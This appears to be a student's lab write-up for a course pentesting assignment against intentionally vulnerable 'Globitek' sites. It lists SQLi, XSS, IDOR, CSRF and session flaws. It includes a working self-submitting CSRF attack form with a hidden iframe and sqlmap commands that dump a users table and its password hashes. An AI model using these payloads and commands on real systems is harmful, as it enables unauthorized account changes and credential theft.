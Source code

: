 # Project 8 - Pentesting Live Targets

Time spent: **25** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQLi - The id parameter is unsanitized and escapable on the salepeople page.

GIF Walkthrough: <img src='http://i.imgur.com/qaOIRtL.gif' />

Vulnerability #2: Session Hijacking/Fixation - A new session ID isn't regenerated when loging back in.

GIF Walkthrough: <img src='http://i.imgur.com/2tWbuTi.gif' />

## Green

Vulnerability #1: Username Enumeration - Error message switches between bold and regular depending if username exists or not.

GIF Walkthrough: <img src='http://i.imgur.com/UYoccrU.gif' />

Vulnerability #2: Stored XSS - The Name and Feedback fields on the feedback page are unsanitized. Guest can send malicious messages with embedded JS that will trigger once opened.

GIF Walkthrough: <img src='http://i.imgur.com/o1zsKGH.gif' />


## Red

Vulnerability #1: IDOR - Hidden salespeople ids are accessible

GIF Walkthrough: <img src='http://i.imgur.com/lnQoU8t.gif' />

Vulnerability #2: CSRF - CSRF tokens are not used in the edit pages

GIF Walkthrough: <img src='http://i.imgur.com/qoO6YKA.gif' />


## Notes

Describe any challenges encountered while doing the work

CSRF Test Form:

```
<!DOCTYPE html>
<html>
<body>

<h1> Don't Worry! This site is doing absolutely nothing suspicious! >:) </h1>

<!-- iframe holds the redirected page after submittion and is hidden from the unsuspecting victim -->
<iframe width="0" height="0" border="0" name="dummyframe" id="dummyframe"></iframe>

<form name="csrfForm" action="https://104.154.233.91/red/public/staff/users/edit.php?id=4" target="dummyframe" method="POST">
 <input type="hidden" name="first_name" value="CSRF" />
 <input type="hidden" name="last_name" value="Successful" />
</form>
<script>document.csrfForm.submit(); </script>

</body>
</html>
```
Bonus 1 Task:

The admin login credentials were left out accidently at first and it wasn't possible to login. Before the neccessary admin credentials were provided, the database was exposed using Sqlmap to obtained the admin credentials from the users table. The hashed passwords were obtained but the passwords were salted. With no information on what the salt values could be, decrypting the hashed passwords was almost impossible. Although this prodecure didn't result in successfully loging into the admin page, learning how to use Sqlmap in such a circumstance was a very insightful experience. The default Sqlmap version was also outdated and didn't work; had to install updated version from the official github link.

Sqlmap Installation Command:

```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
``` 

*Note: Must navigate to the "sqlmap-dev" directory before executing the following command.

Sqlmap Command - Get databases from host 104.197.43.145: 

```
python2 sqlmap.py --url 'https://104.197.43.145/blue/public/salesperson.php?id=1' --cookie='security=low; PHPSESSID=5d1dmfg3ak225m3kmam8qkkat2' --dbs
```

Sqlmap Command - Get tables from database "globitek_blue":

```
python2 sqlmap.py --url 'https://104.197.43.145/blue/public/salesperson.php?id=1' --tables -D globitek_blue

```

Sqlmap Command - Get columns from table "users":

```
python2 sqlmap.py --url 'https://104.197.43.145/blue/public/salesperson.php?id=1' --columns -D globitek_blue -T users
```

Sqlmap Command - Dump table "users":

```
python2 sqlmap.py --url 'https://104.197.43.145/blue/public/salesperson.php?id=1' --dump -D globitek_blue -T users
```

Sqlmap Command - Dump column "hashed_password" from table "users":

```
python2 sqlmap.py --url 'https://104.197.43.145/blue/public/salesperson.php?id=1' --dump -D globitek_blue -T users -C hashed_password
```

GIF Walkthrough: <img src='http://i.imgur.com/6NCLBA1.gif' />